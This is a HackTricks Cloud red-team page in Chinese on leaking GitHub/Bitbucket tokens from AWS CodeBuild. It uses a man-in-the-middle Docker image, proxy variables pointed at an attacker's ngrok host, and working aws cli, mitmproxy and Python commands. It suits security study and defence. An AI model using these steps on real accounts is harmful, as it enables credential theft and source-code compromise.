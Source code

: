 # AWS Codebuild - 令牌泄露

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 恢复Github/Bitbucket配置的令牌

首先，检查是否配置了您可能泄露的源凭证：
```bash
aws codebuild list-source-credentials
```
### 通过 Docker 镜像

如果您发现例如 Github 的认证设置在账户中，您可以通过让 Codebuild **使用特定的 Docker 镜像** 来运行项目的构建，来**窃取**那些**访问**（**GH 令牌或 OAuth 令牌**）。

为此，您可以**创建一个新的 Codebuild 项目**或更改现有项目的**环境**，以设置**Docker 镜像**。

您可以使用的 Docker 镜像是 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基础的 Docker 镜像，它将设置**环境变量 `https_proxy`**、**`http_proxy`** 和 **`SSL_CERT_FILE`**。这将允许您拦截在 **`https_proxy`** 和 **`http_proxy`** 中指示的主机的大部分流量，并信任在 **`SSL_CERT_FILE`** 中指示的 SSL 证书。

1. **创建并上传您自己的 Docker MitM 镜像**
* 按照仓库的说明设置您的代理 IP 地址和 SSL 证书，并**构建 Docker 镜像**。
* **不要设置 `http_proxy`**，以免拦截对元数据端点的请求。
* 您可以使用 **`ngrok`**，比如 `ngrok tcp 4444` 来设置代理到您的主机
* 一旦您构建了 Docker 镜像，**上传它到一个公共仓库**（Dockerhub、ECR...）
2. **设置环境**
* 创建一个**新的 Codebuild 项目**或**修改**现有项目的环境。
* 将项目设置为使用**之前生成的 Docker 镜像**

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

3. **在您的主机中设置 MitM 代理**

* 如**Github 仓库**中所示，您可以使用类似的东西：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**使用的 mitmproxy 版本是 9.0.1**，有报告称版本 10 可能无法工作。
{% endhint %}

4. **运行构建并捕获凭证**

*   你可以在 **Authorization** 头中看到令牌：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

这也可以通过 aws cli 来完成，类似于

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~通过 HTTP 协议~~

{% hint style="success" %}
**这个漏洞在 2023 年 2 月 20 日那周的某个时候被 AWS 修复了（我认为是在周五）。所以攻击者现在不能再滥用它了 :)**
{% endhint %}

攻击者拥有 **在 CodeBuild 上的提升权限可以泄露配置的 Github/Bitbucket 令牌**，或者如果权限是通过 OAuth 配置的，那么可以泄露用于访问代码的**临时 OAuth 令牌**。

* 攻击者可以向 CodeBuild 项目添加环境变量 **http\_proxy** 和 **https\_proxy**，指向他的机器（例如 `http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 然后，将 github 仓库的 URL 从 HTTPS 改为 HTTP，例如：**http://**github.com/carlospolop-forks/TestActions
* 接着，在代理变量（http\_proxy 和 https\_proxy）指向的端口上运行 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) 中的基本示例
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击 **构建项目**，**凭证**将以明文（base64）形式发送到mitm端口：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
现在，攻击者将能够从他的机器上使用该令牌，列出它拥有的所有权限，并且比直接使用CodeBuild服务更容易（滥）用。
{% endhint %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零到英雄学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
